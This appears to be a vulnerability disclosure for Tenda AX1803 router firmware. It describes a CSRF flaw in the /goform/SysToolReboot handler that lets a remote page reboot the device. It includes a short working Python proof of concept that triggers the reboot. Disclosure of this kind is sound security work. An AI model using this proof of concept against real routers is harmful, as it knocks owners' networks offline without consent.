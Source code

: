 Affect device: Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SysToolReboot` page which influences the lastest version of Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4 (https://www.tenda.com.cn/download/detail-3421.html)

The vulnerability exists in the file `/bin/tdhttpd` , function **fromSysToolReboot** .

![1](img/1-1.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
import requests

url = "http://192.168.23.133/goform/SysToolReboot"

r = requests.get(url)

print(r.content)
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![1](img/1-2.png)
